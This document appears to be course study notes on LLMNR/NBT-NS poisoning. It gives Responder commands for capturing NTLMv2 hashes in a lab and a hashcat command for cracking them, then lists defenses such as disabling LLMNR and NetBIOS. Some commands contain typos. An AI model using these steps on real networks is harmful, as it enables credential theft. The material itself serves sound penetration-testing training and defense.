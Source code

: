 # LLMNR Poisoning

## What is LLMNR (link-local multicast name resolution)?
- used to identify hosts when DNS fails to do so
- previously NBT-NS
- key flaw is that the service utilizes a user's username and NTLMv2 hash when appropriately responded to

## # LLMNR Poisoning Overview
- LLMNR Poisoning is a man-in-the-middle attack 
![](https://i.imgur.com/CIJBzc7.png)

## Steps
1. run responder ```python Responder.py -| tun0 -rdw```
2. an event occurs
3. get NTLMv2 hashes
4. crack the hash ```hashcat -m 5600 hashes.txt. rockyou.txt```

## Capturing NTLMv2 Hashes with Responder

Setup responder listening from attack machine (kali)

This didn't work for me:
```bash
responder -I eth0 -rdw
```

Kept getting a message ```error: no such option: -r```

This worked:
```bash
responder -I eth0 -dwP
```

### Responder issues update from PNPT Staff
```
Responder is missing -r

The new version of responder has had the -r switch removed, to install the old version ( one used with the course )

New command line is : 

responder -I eth0 -dw

Or....

Update: Added to Pimpmykali rev 1.4.7 
Menu option R

Does the following: 
wget http://old.kali.org/kali/pool/main/r/responder/responder_3.0.6.0-0kali2_all.deb

sudo apt update

sudo apt -y remove responder 

sudo dpkg -i responder_3.0.6.0-0kali2_all.deb

sudo apt-mark hold responder

This will download the old responder, uninstall the current responder version, install the old responder verion 3.0.6.0 and you can use the old command line in the course material
```

Then try to connect to the attack machine from one of the victim machines (Vegeta)
The Hash Dump is produced from the responder:

![](https://i.imgur.com/Ytmgzbr.png)

## Password Cracking with Hashcat
#hash-cracking

- I ran this thru with my M1 Max, shit was fast! ```brew install hashcat```
- crack the hash ```hashcat -m 5600 hashes.txt. rockyou.txt```

![](https://imgur.com/4pzyFt5.png](https://imgur.com/4pzyFt5.png)

### Where to Find Wordlists?
- https://github.com/danielmiessler/SecLists
- https://github.com/initstring/passphrase-wordlist

## LLMNR Poisoning Defense

The best defense in this case is to disable LLMNR and NBT-NS.
- To disable LLMNR, select "Turn OFF Multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor.
- To disable NBT-NS, navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and select "Disable NetBIOS over TCP/IP"

If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:
- Require Network Access Control
- Require strong user passwords (e.g., >14 characters in length and limit common word usage). The more complex and long the password, the harder it is for an attacker to crack the hash.